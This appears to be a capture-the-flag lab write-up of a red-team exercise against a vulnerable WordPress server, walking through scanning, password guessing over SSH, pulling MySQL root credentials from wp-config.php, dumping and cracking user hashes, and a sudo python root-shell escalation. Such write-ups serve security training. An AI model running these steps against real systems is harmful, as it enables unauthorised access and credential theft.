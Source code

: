 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:  
~~~
nmap -sV 192.168.1  
~~~

![red1](https://user-images.githubusercontent.com/32025331/155894956-f1c31fe2-82f8-4a57-a74d-95c5a0dda68f.PNG)

This scan identifies the services below as potential points of entry:  
  
Target 1  
- OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
- Apache httpd 2.4.10 ((Debian))  
  
The following vulnerabilities were identified on each target:
- Target 1
- Weak server password
- Unsalted hashed passwords
- Unpatched WordPress software
  
 ## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


**flag1{b9bbcb33e11b80be759c4e844862482d}**  
Tools used: dirb, wpscan  
- Using dirb we were able to find a wordpress page: 192.168.1.110/wordpress  

![red10](https://user-images.githubusercontent.com/32025331/155897106-083e1297-c5d6-490f-af59-1ac251500554.PNG)


- From there we ran wpscan: 
~~~
wpscan –url http://192.168.1.110/wordpress
~~~
![red2](https://user-images.githubusercontent.com/32025331/155894957-b9e4c47b-09d7-43ff-9d0f-d4a3ef808915.PNG)

We then found two login names: Steven and Michael  
![red3](https://user-images.githubusercontent.com/32025331/155894958-c2fc6d12-f3ff-47b4-93a7-9a038cbdac2a.PNG)

By sheer luck, we guessed the password without brute force:  
~~~
ssh michael@192.168.1.110
Password:  michael
cd ../../var/www/html
grep -RE flag1
~~~
![red4](https://user-images.githubusercontent.com/32025331/155894959-9c35c8ed-fc7c-4049-8b13-c03f6d785452.PNG)  
  
**flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**  
- Follow same steps as flag 1 to ssh into the server  
~~~ 
cd ../../var/www/
grep -RE flag2
~~~


**flag3{afc01ab56b50591e7dccf93122770cd2}**  
**flag4{715dea6c055b9fe3337544932f2941ce}**  
Tools used: SSH, MySQL  
~~~
ssh michael@192.168.1.110
Password: michael
cd /var/www/html/wordpress
nano wp-config.php  
~~~

![red5](https://user-images.githubusercontent.com/32025331/155894960-bc91d0f1-f6ac-4d95-bc81-c3027734bba8.PNG)  
Within wp-config.php we were able to find credentials to a MySQL database.
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select post_content from wp_posts;
~~~
![red9](https://user-images.githubusercontent.com/32025331/155896987-d9932ea6-75bb-4b88-ae79-67f5b9a46999.PNG)  
  
**Flag 4 from Steven’s account**  
- Tools used: SSH, MySQL, johntheripper  
- Using the MySQL credentials from before:  
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select user_login, user_pass from wp_users;
~~~  
We found the hashed passwords within ^#%$.  
Exit back out to Kali. From here we can use John the Ripper:  
![red6](https://user-images.githubusercontent.com/32025331/155894961-05ed83c8-ab77-40f0-b8e0-33995815607d.PNG)  
SSH into the webserver using Steven’s credentials:  
~~~
Ssh steven@192.168.1.110
Password: pink84
~~~
Now we run a python exploit:
~~~
sudo /usr/bin/python -c 'import os;os.system("/bin/sh")'
cd root
cat flag4.txt
~~~
[picture]
